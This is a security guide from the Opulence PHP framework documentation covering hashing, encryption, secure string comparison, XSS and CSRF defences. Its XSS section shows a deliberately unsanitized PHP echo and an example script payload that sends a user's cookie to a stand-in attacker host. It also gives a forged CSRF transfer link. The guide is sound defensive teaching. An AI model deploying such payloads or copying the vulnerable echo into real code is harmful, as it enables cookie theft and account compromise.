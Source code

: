 # Security

## Table of Contents
1. [Introduction](#introduction)
2. [Generating Random Strings](#generating-random-strings)
  1. [What is It?](#random-strings-what-is-it)
  2. [How to Use It](#random-strings-how-to-use-it)
3. [Comparing Strings](#comparing-strings)
  1. [What is It?](#comparing-strings-what-is-it)
  2. [How to Use It](#comparing-strings-how-to-use-it)
4. [Hashing](#hashing)
  1. [What is It?](#hashing-what-is-it)
  2. [How to Use It](#hashing-how-to-use-it)
5. [Encryption](#encryption)
  1. [What is It?](#encryption-what-is-it)
  2. [How to Use It](#encryption-how-to-use-it)
6. [Cross-Site Scripting (XSS)](#cross-site-scripting)
  1. [What is It?](#xss-what-is-it)
  2. [How to Defend Against It](#xss-how-to-defend-against-it)
7. [Cross-Site Request Forgery (CSRF/XSRF)](#cross-site-request-forgery)
  1. [What is It?](#csrf-what-is-it)
  2. [How to Defend Against It](#csrf-how-to-defend-against-it)

<h2 id="introduction">Introduction</h2>
Building a secure application is extremely difficult.  Protecting your users from cross-site scripting, cross-site request forgeries, and session hijacking requires a lot of tools.  Fortunately, you don't have to be a security expert to take advantage of all the protection Opulence delivers out of the box.

<h2 id="generating-random-strings">Generating Random Strings</h2>
<h4 id="random-strings-what-is-it">What is It?</h4>
Random strings are commonly used to ensure security for things like session Ids and authentication tokens.  If your random strings are not so random, then your entire application can be compromised.

<h4 id="random-strings-how-to-use-it">How to Use It</h4>
Learn how to [generate random strings](cryptography#generating-random-strings) in Opulence.

<h2 id="comparing-strings">Comparing Strings</h2>
<h4 id="comparing-strings-what-is-it">What is It?</h4>
Comparing sensitive strings, like hashes and tokens, using PHP's `==` operator can give away information about the string you're comparing against.  For example, comparing "aaa" to "bbb" will return `false` faster than "aaa" and "aab" because PHP's comparison operator returns false at the first differing character.  Using
a sensitive timer and many iterations, a hacker could figure out any secured hash that's being compared with user input.

<h4 id="comparing-strings-how-to-use-it">How to Use It</h4>
Learn how to [securely compare strings](cryptography#string-comparison) in Opulence.

<h2 id="hashing">Hashing</h2>
<h4 id="hashing-what-is-it">What is It?</h4>
Hashing involves performing a one-way mapping of input to a hashed value, which is suitable for storing sensitive data.

<h4 id="hashing-how-to-use-it">How to Use It</h4>
Learn how to [hash data](cryptography#hashing) in Opulence.

<h2 id="encryption">Encryption</h2>
<h4 id="encryption-what-is-it">What is It?</h4>
Encryption is the process of encoding data with a special key so that only authorized parties may read it.

<h4 id="encryption-how-to-use-it">How to Use It</h4>
Learn how to [encrypt data](cryptography#encryption) in Opulence.

<h2 id="cross-site-scripting">Cross-Site Scripting (XSS)</h2>
<h4 id="xss-what-is-it">What is It?</h4>
Cross-site scripting involves the injection of client-side scripts into your pages.  A common vulnerability is displaying unsanitized user input to your page:

```php
Hello, <?php echo $_GET["name"]; ?>
```

A malicious user could send an unsuspecting user a hyperlink with a XSS injection in the URL:  `http://your-site.com/?name=<script>(new Image).src="http://attacker-site.com/" + $.cookie("user-password")</script>`.  Clicking on the link would take the user to your page, which would display:

```
Hello, <script>(new Image).src="http://attacker-site.com/" + $.cookie("user-password")</script>
```

Loading this page would send the user's "user-password" cookie to the attacker's server.

<h4 id="xss-how-to-defend-against-it">How to Defend Against It</h4>
To solve this problem you must sanitize any user-input before displaying it on a page.  [Opulence's template system](view-fortune#sanitized-tags) gives you the tools to prevent cross-site scripting.

<h2 id="cross-site-request-forgery">Cross-Site Request Forgery (CSRF/XSRF)</h2>
<h4 id="csrf-what-is-it">What is It?</h4>
Cross-site request forgery is an attack where unauthorized commands are sent to a trusted site through an authenticated user.  For example, a malicious user might send a normal user Bob the following hyperlink:  `http://your-site.com/transferMoney?amount=1000&to=attacker-account-Id`.  If Bob was logged into your site, clicking this link would attempt to transfer money to the attacker's account without Bob's authorization.

<h4 id="csrf-how-to-defend-against-it">How to Defend Against It</h4>
To prevent this from happening, a unique token should be embedded in every form and with every session.  When the form is submitted, the form token and session token should be compared, and if they are not equal, the submission should be rejected.  In the example case above, the form token would not be set.  With CSRF protection in place, the form and session tokens would not match, and the form submission would be rejected.

Opulence automatically generates and compares the tokens using middleware.  To include the token in your form, use the `{{! csrfInput() !}}` view function in your view.  This will create a hidden input with your token, which will validate against the session token.  You can also use the `{{ csrfToken() }}` template function to print the token in elements like meta tags:

```php
<meta name='csrf-token' content='{{ csrfToken() }}' >
```

To give you CSRF protection in JavaScript, Opulence sets the `XSRF-TOKEN` cookie, which some frameworks use to automatically set the `X-XSRF-TOKEN` HTTP header in requests.
